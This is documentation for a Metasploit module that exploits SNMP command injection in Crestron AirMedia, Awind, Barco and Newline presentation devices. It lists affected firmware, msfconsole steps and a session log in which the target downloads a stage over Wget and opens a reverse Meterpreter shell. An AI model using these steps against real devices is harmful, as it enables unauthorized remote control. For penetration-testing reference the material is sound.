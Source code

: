 ## Description

This module exploits a vulnerability found in AwindInc and OEM'ed products where untrusted inputs are fed to `ftpfw.sh` system command, leading to command injection.

Note: a valid SNMP read-write community is required to exploit this vulnerability.

## Vulnerable Devices

The following devices are known to be affected by this issue:

* Crestron Airmedia AM-100 <= version 1.5.0.4
* Crestron Airmedia AM-101 <= version 2.5.0.12
* Awind WiPG-1600w <= version 2.0.1.8
* Awind WiPG-2000d <= version 2.1.6.2
* Barco wePresent 2000 <= version 2.1.5.7
* Newline Trucast 2 <= version 2.1.0.5
* Newline Trucast 3 <= version 2.1.3.7

Other devices might be affected by the same issue but lack of access to firmware forbids me from confirming that. See https://github.com/QKaiser/awind-research for full list of similar devices.

## Verification steps

1. Start `msfconsole`
2. Do: `use exploit/linux/snmp/awind_snmp_exec`
3. Do: `set payload linux/armle/meterpreter/reverse_tcp`
4. Do: `set RHOST [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

You should get a session.

## Scenarios

```
msf5 > use exploit/linux/snmp/awind_snmp_exec
msf5 exploit(linux/snmp/awind_snmp_exec) > set payload linux/armle/meterpreter/reverse_tcp 
payload => linux/armle/meterpreter/reverse_tcp
msf5 exploit(linux/snmp/awind_snmp_exec) > set RHOSTS 192.168.100.2
RHOSTS => 192.168.100.2
msf5 exploit(linux/snmp/awind_snmp_exec) > set LHOST 192.168.100.1
LHOST => 192.168.100.1
msf5 exploit(linux/snmp/awind_snmp_exec) > check

[*] Target system is Crestron Electronics AM-100 (Version 2.6.0.6)
[+] 192.168.100.2:161 The target is vulnerable.
msf5 exploit(linux/snmp/awind_snmp_exec) > run

[*] Started reverse TCP handler on 192.168.100.1:4444 
[*] Using URL: http://0.0.0.0:8080/u70HALC
[*] Local IP: http://192.168.1.10:8080/u70HALC
[*] Injecting payload
[*] Injection successful
[*] Triggering call
[*] Trigger successful
[*] Client 192.168.100.2 (Wget) requested /u70HALC
[*] Sending payload to 192.168.100.2 (Wget)
[*] Sending stage (806872 bytes) to 192.168.100.2
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.2:38009) at 2019-03-28 11:01:41 +0100
[*] Server stopped.

meterpreter > sysinfo
Computer     : Crestron.AirMedia-1.1.wm8750
OS           :  (Linux 2.6.32.9-default)
Architecture : armv6l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
```

## References

* https://github.com/QKaiser/awind-research
* https://qkaiser.github.io/pentesting/2019/03/27/awind-device-vrd/
